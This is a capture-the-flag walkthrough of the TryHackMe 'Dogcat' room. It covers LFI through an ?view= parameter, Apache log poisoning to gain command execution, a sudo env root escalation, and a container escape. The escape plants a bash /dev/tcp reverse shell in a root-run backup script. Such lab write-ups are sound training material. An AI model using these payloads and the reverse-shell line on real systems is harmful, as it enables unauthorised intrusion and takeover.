# Dogcat
**Date:** April 30th 2022

**Author:** j.info

**Link:** [**Dogcat**](https://tryhackme.com/room/dogcat) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Medium

<br>



<br>

## Objectives
- What is flag 1?
- What is flag 2?
- What is flag 3?
- What is flag 4?

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -Pn -T4 10.10.`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: dogcat
```

<br>

### Gobuster Scan

`gobuster dir -u http://10.10. -t 100 -r -x php,txt,html -w dir-med.txt`

```bash
/index.php            (Status: 200) [Size: 418]
/cat.php              (Status: 200) [Size: 26] 
/flag.php             (Status: 200) [Size: 0]  
/cats                 (Status: 403) [Size: 278]
/dogs                 (Status: 403) [Size: 278]
/dog.php              (Status: 200) [Size: 26] 
```

<br>

## Website Digging & LFI

Visiting the main page:



<br>

Clicking on either of the buttons displays a picture of either a dog or a cat depending on which you click. The images are pulled from the 403 **/dogs** and **/cats** directories above.



<br>

If you look at the address bar you can see that **?view=** gets appended based on what you picked, so there may be some **LFI** to check out here.

Trying to visit **../../../../etc/passwd** gives us an error message saying only dogs or cats are allowed so there is a filter in place.



<br>

I try to keep dogs in request URL and add the path after, which doesn't work but it does throw an error that gives us more information. It looks like as long as the word dog or cat are in the URL it will try to process the request, but unfortunately it also tries to append .php to the end of whatever you put in.



<br>

I try to use the full path for the **/dogs** directory and then LFI back from that point and get a different error message



<br>

Let's try and look at the **.php** source code to see what's happening here. I use a **php filter** to read the **index.php** file, and then convert that from base64 to text:



<br>

```php
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
 
```

The containsStr() confirms our findings that it just looks for the word dog or cat in the URL. You can also see why it's appending .php to the end with the $ext.

The source for **dog.php** and **cat.php** both look like this:

```html
.jpg" />
```

<br>

## Log Poisoning

There are a couple things I try to see if I can avoid .php being appended to the end of the request. The first thing I do is add a null byte (**%00**) to the end of the request, but it doesn't work. The next thing I try does work, and that's adding **&ext** to the end of our request. Doing that I'm able to view the **apache access.log** file:



<br>

Alright, now we're getting somewhere. Given we can view the access.log file we may also be able to do some **log poisoning** to get command execution.

I send the following through Burp to embed our malicious php code into the log which will set us up for command execution:



<br>

After that I send an **id** command through and check to see if it gets added to the logs, and it does:





<br>

## System Access

Ok we have command execution! Now let's use that for a shell.

I look up a reverse shell on [**revshells.com**](https://www.revshells.com/) and settle on using this URL encoded shell:



<br>

And sending it through Burp you can see we get a reverse shell:



<br>

Let's upgrade our shell. I check for both Python and Python3 but they don't exist, nor does Perl or Ruby. We do have **script** on the system though so I use that:

`script -qc /bin/bash /dev/null`

Background my session

`stty raw -echo; fg`

`export TERM=xterm-256color`

`stty rows 73 cols 156`

Now that's out of the way let's start looking around.

<br>

## System Enumeration

Looking in **/var/www/html** shows us a file called **flag.php** which ends up being the answer to the "What is flag 1" question. We could have also used the **php filter** that was used earlier to view this before system access.

```php
<?php
$flag_1 = "<REDACTED>"
?>
```

In **/var/www** we find **flag2_QMW7JvaY2LvK.txt** which answers the "What is flag 2" question:

'wc -c flag2_QMW7JvaY2LvK.txt'

```
22 flag2_QMW7JvaY2LvK.txt
```

Nothing much else in the web directories.

In the root of the file system we see we're in a docker container:

```bash
-rwxr-xr-x   1 root root    0 Apr 30 20:41 .dockerenv
```

I look for **SUID** files and find that **env** is set with these permissions, which is strange. Looking at [**GTFOBins**](https://gtfobins.github.io/gtfobins/env/) shows us that we can break out of it.

And we also can just run it as root after looking at `sudo -l`:

```bash
Matching Defaults entries for www-data on a1c530089d96:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on a1c530089d96:
    (root) NOPASSWD: /usr/bin/env
```

`sudo env /bin/bash`

```bash
www-data@a1c530089d96:/tmp$ sudo env /bin/bash
root@a1c530089d96:/tmp# whoami
root
```

Now to figure out how to escape this container.

I first look at the **hosts** file to see what the IP address of the host system may be, and it looks like it's just localhost:

`cat /etc/hosts`

```bash
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.2      a1c530089d96
```

I run the following to check if **ssh** is open on the localhost, and it looks like it is, so maybe we can utilize that eventually:

`echo > /dev/tcp/172.17.0.1/22 && echo "Port is open"`

```bash
Port is open
```

I check to see if I can run the **docker command** and it's not on the system.

**docker.sock** isn't mounted anywhere so we can't use that.

The container **capabilities** don't show anything interesting.

I'm not able to mount **/dev/sda1** into a directory I created so it looks like the **--privileged** flag is not set.

Not having much luck I decide to contine looking around the container.

In **/root** is a file called **flag3.txt** answering our "What is flag 3?" question:

'wc -c flag3.txt'

```bash
34 flag3.txt
```

Looking in **/opt** shows us a directory called **backup** and inside that is a bash script called **backup.sh** along with a tar file called **backup.tar**.

```bash
-rwxr--r-- 1 root root      69 Mar 10  2020 backup.sh
-rw-r--r-- 1 root root 2949120 May  1 02:27 backup.tar
```

Looking at **backup.sh**:

```bash
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

I uncompress **backup.tar** and look through the files but don't find anything useful.

<br>

## Actual Root

I decide to try and add a reverse shell into the **backup.sh** script in case it gets ran from the other system and set up a listener to catch it:

`echo "/bin/bash -i >& /dev/tcp/10.6.127.197/4444 0>&1" >> backup.sh`

`cat backup.sh`

```bash
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
/bin/bash -i >& /dev/tcp/10.6.127.197/4444 0>&1
```

And it works!

```bash
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.54.41] 54958
bash: cannot set terminal process group (3655): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# whoami
whoami
root
root@dogcat:~# hostname
hostname
dogcat
```

Looking in **/root** shows us **flag4.txt** giving us our final answer:

`wc -c flag4.txt`

```bash
80 flag4.txt
```

<br>

With that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Using **LFI** and **php filter** to view the page source code
- Using **&ext** to get rid of the automatically appeneded **.php extension**
- **Log poisoning** the Apache2 **access.log** with malicious .php code and using it to get a reverse shell
- Checking **sudo -l** and finding we can run the **env** command as root, which allows us to get a root shell
- Finding that we're in a **docker container** and being unable to escape it with stanard techniques
- Finding a **backup bash script** that we can write to that gets run on the host system and adding reverse shell code to it to escape the container and get root on the host system

<br>

Many thanks to:
- [**jammy**](https://tryhackme.com/p/jammy) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)